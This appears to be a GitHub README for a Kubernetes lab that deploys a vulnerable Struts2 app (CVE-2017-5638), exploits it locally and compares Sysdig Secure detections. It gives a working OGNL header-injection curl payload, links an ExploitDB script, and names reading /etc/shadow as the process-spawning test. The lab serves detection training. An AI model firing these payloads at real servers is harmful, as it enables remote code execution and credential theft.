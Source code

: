 # Vulnerable Struts2 (S2-045) Lab 🧪 🔬 

In this lab, you will deploy a Vulnerable Struts2 workload (S2-045 / CVE-2017-5638) in Kubernetes.

1. **Confirm** you can reach the vulnerable app.  
2. **Exploit** it using a simple malicious payload.  
3. **Observe** detection events in Sysdig Secure.

----------

## 1. Access the Struts2 Application 🤖 

-  Your environment can be deployed using the `setup_struts_deployment.sh` file and a pre-configured cluster hosting the Sysdig Detection Agent.  

-  The application will expose on **NodePort 30080**.  

-  Go to `http://localhost:30080` in a browser or use curl:
 
   curl -v http://localhost:30080

-  If properly configured - You should recieve a simple file upload form!

-----------

## 2. Exploit 🦠 

- **Trigger the RCE** by issuing and analyzing the output of: 

`curl -v -X POST -H "Content-Type: %{#context['com.opensymphony.xwork2.dispatcher.HttpServletResponse'].addHeader('vulhub',668.5*2)}.multipart/form-data" http://localhost:30080`

- Alternatively you may use ExploitDB's python exploit @ `https://www.exploit-db.com/exploits/41570`
  Usage: `python2 <script> <url> <command>`

-----------

## 3. **Detection** 🔍 

A clear distinction must be made between the curl payload that stays within Java’s memory (e.g., returning 1337 in a custom header) and one that spawns a system-level process (e.g., cat /etc/shadow).

### Header Injection 
The payload executes in Struts memory, returning **1337** via the vulhub **header**.
No new process, no file access, and no unusual network connections occur.
Sysdig (or any runtime analysis) does not flag this as malicious because it sees no suspicious system calls.


### Python Script (Spawning a Process)
The payload calls `cat /etc/shadow`, causing Java to execute a new child process.
Sysdig sees `/bin/cat /etc/shadow` and raises a **Medium** severity alert because it recognizes unexpected process execution attemtpting to access a sensitive file.

### Verify in Sysdig Secure:
Go to **Threats → Sysdig Runtime Notable Events**.
Find the corresponding Event ID (e.g., 18191e49f34866df273474732a500c25).
In summary, a simple header injection won’t trigger Sysdig, but any payload that spawns a process or accesses sensitive resources will. This showcases early detection and the need for refined rulesets within your tools!



